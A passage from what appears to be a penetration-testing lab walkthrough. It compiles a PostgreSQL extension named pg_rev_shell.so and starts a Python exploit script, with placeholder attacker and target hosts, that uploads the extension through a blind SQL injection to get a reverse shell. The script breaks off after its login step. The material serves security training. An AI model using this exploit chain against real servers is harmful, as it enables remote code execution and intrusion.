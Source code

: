 ```c
    PG_RETURN_INT32(0);
}
```

Then, students need to install `postgresql-server-dev-13` to be able to compile the extension:

Code: shell

```shell
sudo apt install postgresql-server-dev-13 -y
```

```
┌─[us-academy-1]─[10.10.14.189]─[htb-ac-413848@htb-jexdps7n8s]─[~]
└──╼ [★]$ sudo apt install postgresql-server-dev-13 -y

Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following packages were automatically installed and are no longer required:
  libgit2-1.1 libmbedcrypto3 libmbedtls12 libmbedx509-0 libstd-rust-1.48 libstd-rust-dev linux-kbuild-5.18 rust-gdb
Use 'sudo apt autoremove' to remove them.
The following additional packages will be installed:
  libpq-dev libpq5 llvm-11 llvm-11-dev llvm-11-runtime llvm-11-tools
Suggested packages:
  postgresql-doc-13 llvm-11-doc
```

Subsequently, students need to use `gcc` to compile the extension to a `shared library object`:

Code: shell

```shell
gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
```

```
┌─[us-academy-1]─[10.10.14.189]─[htb-ac-413848@htb-jexdps7n8s]─[~]
└──╼ [★]$ gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
```

Now that `pg_rev_shell.so` is created, students need to upload it to the web server by weaponizing the blind SQLi, as shown in the `Automation / Writing an Exploit` subsection of the `Command Exection` section of the module:

Code: python

```python
import requests
import random
import string
from urllib.parse import quote_plus
import math

BASE_URL = "http://STMIP:8080"
LHOST = "PWNIP"
LPORT = PWNPO
USERNAME = "admin"
PASSWORD = "3b579698243a72bee5f08a37f245c3b1" # Replace it with password used when reseting the password of the admin user

s = requests.Session()
r = s.post(
    f"{BASE_URL}/login",
    headers = {"Content-Type":"application/x-www-form-urlencoded"},
    data = f"username={USERNAME}&password={PASSWORD}"
)

if "My Passwords</h1>" in r.text:
```